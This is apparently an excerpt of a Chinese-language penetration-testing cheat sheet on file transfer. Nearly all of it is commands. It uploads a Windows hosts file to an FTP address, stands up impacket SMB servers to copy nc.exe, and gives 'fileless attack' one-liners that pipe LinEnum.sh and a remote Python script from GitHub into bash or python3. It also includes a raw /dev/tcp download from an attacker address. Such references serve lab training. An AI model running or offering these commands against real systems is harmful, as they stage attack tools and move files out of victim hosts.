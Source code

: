 ```
```

PowerShell doesn't have a built-in function for upload operations, but we can use `Invoke-WebRequest` or `Invoke-RestMethod` to build our upload function. 

```
(New-Object Net.WebClient).UploadFile('ftp://192.168.49.128/ftp-hosts', 'C:\Windows\System32\drivers\etc\hosts')#上传文件
```

### 5.1.2 SMB

```
impacket-smbserver share -smb2support /tmp/smbshare #创建SMB服务器
impacket-smbserver share -smb2support /tmp/smbshare -user test -password test #创建用户密码
copy \\x.x.x.x\share\nc.exe #从SMB服务器复制文件
net use n: \\192.168.220.133\share /user:test test#使用用户名和密码挂载SMB服务器
```

### 5.1.3 FTP

```
pip3 install pyftpdlib #默认情况下，使用端口2121
python3 -m pyftpdlib --port 21
```

## 5.2 linux文件传输

### 5.2.1 wget

```
wget https://xxx./s -O ssx.
```

### 5.2.2 curl

```
curl https://xxx./s -o ssx.
```

### 5.2.3 使用无文件攻击

利用管道，但也可能会留下临时文件

```
curl https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh | bash
wget -qO- https://raw.githubusercontent.com/juliourena/plaintext/master/Scripts/helloworld.py | python3
```

### 5.2.4 使用bash下载

```
exec 3<>/dev/tcp/10.10.10.32/80 #连接到服务器
echo -e "GET /LinEnum.sh HTTP/1.1\n\n">&3 #HTTP GET请求
cat <&3 #打印响应
```
